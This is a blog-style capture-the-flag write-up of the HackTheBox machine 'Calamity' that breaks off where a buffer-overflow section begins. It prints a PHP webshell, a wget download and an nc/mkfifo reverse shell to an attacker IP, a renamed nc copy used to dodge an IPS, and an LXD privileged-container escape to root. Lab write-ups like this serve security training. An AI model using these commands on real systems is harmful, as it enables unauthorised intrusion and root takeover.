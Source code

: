 ```yaml
---
title: "HackTheBox - WriteUp 7"
date: 2019-06-09T19:46:08+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Calamity

It just seems in Medium difficulty, however, it is really brainfuck in privilege escalation part.

## Before start

Nmap Scan: 80 and 22, Apache + SSH.

Gobuster Scan: /uploads(200), admin.php(200)

# Normal User

## Reverse shell

Access `admin.php` and you will find the `admin` with password in the comment of the webpage source code, which is: `password is:skoupidotenekes`

After you login, you've been told that this page could execute and php code. The question is that this method is submitted via URL params, so you can't submit too long code.

The shortest php webshell is: 

```php
<?=`$_GET[1]`?>
```

Just fired up my AntSword, generate a shell, and then detect if there's `wget`. It works. So write a php command to let it download the shell from the http server, 
Note: The `/var/www/html` is RO-only, you can only upload to `uploads/`

```php
<?php system("wget http://10.10.16.37:8080/te26st.php -o uploads/te26st.php");?>
```

After that, try `nc` to get a reverse shell. But after connection established, it get killed immediately. So what should we do? Check the `/etc/passwd` and found a normal user called `xalvas`, try to access to the home, succeeded. Then we got `user.txt`. However, there's a `intrusions` folder here. Check the content, just logged that there's a crappy IPS which blacklisted some process to run.

So let's just copy a `nc` to `/dev/shm` to avoid being killed:

```bash
$ cp /bin/nc /dev/shm/gibs
$ chmod 755 /dev/shm/gibs
```

Then grab a php reverse shell from pentestmonkey, run it with our "customized" nc.

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/gibs 10.10.16.37 12334 >/tmp/f");?>
```

Successfully got the shell we need.

## Interactive shell

Download the `recov.wav` and `alarmclocks/rick.wav`. Import both of them into `audacity`, and invert one of them. You will hear the normal user password. Don't forget to set repeatedly play the audio.

The password is: `18547936..*`

Just access it via SSH.

# Privilege Escalation

Of course, LinEnum first. 

Due to the normal user belongs to group lxd, and also the lxc is initialized before. 

And there's an ELF with `setuid` permission in `~/app`.

So we have two methods to escalate.

## LXC method

This is the easier one.

We notice xalvas is member of the lxd group. Like with most container technologies (e.g.,), you can run processes with root privileges via LXD. Thus, being member of groups like lxd are more or less equivalent to being root. [Here](https://reboare.github.io/lxd/lxd-escape.html) is a blog post with some details on how to exploit this group membership.

The privesc requires to run a container with elevated privileges and mount the host filesystem inside. Running containers requires an image on the machine. Since we do not have an internet connection on the machine, we have to copy over an image. The outline is as follows:

= Build an image locally and copy image to remote host
= Import image into LXD, create a container and mount host filesystem
= Run a shell inside the container and get flag

### Prepare image

Alpine is a popular Linux distribution to base container images on since it is so small. Unlike other operating systems, which may result in a few hundred megs, Alpine images are often rather small. In this [repository](https://github.com/saghul/lxd-alpine-builder) you can find a simple script to build a container. Clone it, cd into it, then run `./build-alpine -a i686` and a tar file `alpine-v3.7-i686-20180121_1729.tar.gz` will appear.

With SSH access, copying is as easy as running `scp alpine-v3.7-i686-20180121_1729.tar.gz xalvas@10.10.10.27:/dev/shm/.tmp/alpine.tar.gz` .

### Prepare container
Importing tar files as images is explained [here](https://stgraber.org/2016/03/30/lxd-2-0-image-management-512/). The steps are as follows:

```bash
xalvas@calamity:/dev/shm/.tmp$ lxc image import ./alpine.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: facaf59235080f8c950f700f1c0a9e65a7487901dfc30d04bd78bba7444df4b0
xalvas@calamity:/dev/shm/.tmp$ lxc image list
+---------+--------------+--------+------------------------------+------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+------------------------------+------+--------+------------------------------+
| myimage | facaf5923508 | no     | alpine v3.7 (20180121_17:29) | i686 | 2.37MB | Jan 21, 2018 at 8:06pm (UTC) |
+---------+--------------+--------+------------------------------+------+--------+------------------------------+
```

The output above asks us to run lxd init but if we try, it tells us we should sudo, which we can’t do. Fortunately, it will work without, so it’s ok to ignore.

We proceed by creating the container. The important part about it is using the flag security.privileged=true, which causes the container to interact as root with the host filesystem. This means all we have to do it mount the whole filesystem into the container and we get access to everything.

```bash
xalvas@calamity:/dev/shm/.tmp$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
xalvas@calamity:/dev/shm/.tml$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
xalvas@calamity:/dev/shm/.tmp$ lxc list
+-------------+---------+------+------+------------+-----------+
|    NAME     |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+-------------+---------+------+------+------------+-----------+
| mycontainer | STOPPED |      |      | PERSISTENT | 0         |
+-------------+---------+------+------+------------+-----------+
```

### Run shell
The last part is starting the container and executing a shell inside. We can then change into the rooted host filesystem and cat out the flag.

```bash
xalvas@calamity:/dev/shm/.tmp$ lxc start mycontainer
xalvas@calamity:/dev/shm/.tmp$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la /mnt/root/
total 108
drwxr-xr-x   22 root     root          4096 Jun 29  2017 .
drwxr-xr-x    3 root     root          4096 Jan 23 20:20 ..
drwxr-xr-x    2 root     root          4096 Jun 28  2017 bin
drwxr-xr-x    3 root     root          4096 Jun 27  2017 boot
drwxr-xr-x   18 root     root          3880 Jan 21 22:26 dev
drwxr-xr-x   96 root     root          4096 Jun 28  2017 etc
[...]
~ # cat /mnt/root/root/root.txt
9be6... <- flag
```

## Buffer Overflow 

**This is really the most difficult one I faced here.**

If you aren't a container expert, chances are you would have taken another much harder path. A simple search for SUID binaries delivers the following result:

```bash
xalvas@calamity:~$ find / -perm -4000 2>/dev/null
/home/xalvas/app/goodluck
/bin/ping6
/bin/umount
/bin/mount
[...]
```

A file called goodluck sounds like you are supposed to exploit it. And indeed, it is possible. Also the partial source code is in the folder.

### Before we start

I suggest you read the following contents as preparation:

- https://steemit.com/ctf/@austinhudson/return-oriented-programming-techniques
- http://man7.org/linux/man-pages/man2/mprotect.2.html
- https://www.roguesecurity.in/2017/07/16/a-quick-reference-guide-to-gnu-debugger/
- https://reboare.github.io/bof/linux-stack-bof-3.html

This man's blog is really useful:

- https://reboare.github.io

### Start
